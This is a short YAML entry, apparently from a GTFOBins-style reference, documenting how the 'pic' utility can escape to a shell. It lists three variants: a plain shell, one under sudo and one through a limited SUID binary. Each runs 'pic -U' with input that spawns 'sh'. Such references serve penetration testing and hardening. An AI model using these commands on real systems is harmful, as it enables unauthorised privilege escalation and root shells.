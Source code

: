 ```yaml
---
functions:
  shell:
    - code: |
        pic -U
        .PS
        sh X sh X
  sudo:
    - code: |
        sudo pic -U
        .PS
        sh X sh X
  limited-suid:
    - code: |
        ./pic -U
        .PS
        sh X sh X
---
```

